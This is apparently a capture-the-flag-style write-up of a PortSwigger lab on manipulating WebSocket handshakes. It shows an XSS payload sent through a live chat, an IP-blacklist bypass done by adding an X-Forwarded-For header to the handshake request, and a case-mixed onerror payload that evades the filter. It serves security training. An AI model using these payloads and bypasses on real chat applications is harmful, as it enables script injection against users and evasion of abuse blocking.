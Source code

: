 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/6e817eca-e648-4084-93ac-f12138a74ac1)

## Overview :

## Solution :

Clickin on *Live chat*, we are taken to a page where we are able to chat with another user.

When we send a XSS payload in the chat, the chat is **disconnected.**

```js
<img src=1 onerror='alert(1)'>
```
![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/a9c985d5-9ebc-48b3-b7cb-a8729760cf4e)

In the **WebSockets History** tab, we can see the requests & responses from both client and server .

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/5be6f0e8-6944-48f2-bba4-41d2016e6828)

In one of the request to the server, the following XSS data is sent in JSON format.

```
{"message":"&lt;img src=1 onerror=&#39;alert(1)&#39;&gt;"}
```

Since it is flagged as malicious message , the attack has been blocked & the connection is disconnected. 

Now we can't send any message since our **IP is blocked.**

### Reconnect to a disconnected socket -

Send the request to Repeater tab.

If we try to reconnect by using the **Reconnect** button, the response says that **our IP address is blacklisted**
![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/fdfd943b-070b-43ea-9bc7-b72c7e5781c9)

Click on the **Pencil icon** on the top to **Select a websocket.**

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/8295060b-acb8-4cce-8280-b14d6b38bb8c)

Add `X-Forwarded-For: 1.1.1.1` in the connection request.
   
```http
GET /chat HTTP/1.1
Host: 0a19004c03e7aff780e8051000b70091.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0
X-Forwarded-For:1.1.1.1
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Sec-WebSocket-Version: 13
Origin: https://0a19004c03e7aff780e8051000b70091.web-security-academy.net
Sec-WebSocket-Key: A8icuxTILQ+zv9El+okv9g==
Connection: keep-alive, Upgrade
Cookie: session=uuhm54U4DRhGLcbXMXAuUYwkvqNwpYFB
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: websocket
Sec-Fetch-Site: same-origin
Pragma: no-cache
Cache-Control: no-cache
Upgrade: websocket
```

The response still shows that we are blacklisted. But now if we change the message value to *Hey* & send the request, we can see the response from the other user. Meaning **we have sucessfully bypassed the blacklisting.**

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/5c4c49db-fcc6-4e09-a090-0d1691e4e7c4)

### XSS

Now we can modify the XSS payload in the message such that it bypass the defenses that are in place.

```json
{
"message":"<img src=1 oNeRrOr=alert`1`>"
}
```
This time our payload is not detected nor we are blacklisted , instead we get a reply from the other user. Which means the XSS payload got triggered at the end user's side.

After the end user receives the message , he user replies the following.

```json
{
"user":"Hal Pline",
"content":"I can't hear you. I can't hear you. I can't hear you. I'm just kidding, but that was funny"
}
```
Now the lab is solved.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/84be750b-30a5-49f4-92bb-bec30424b745)

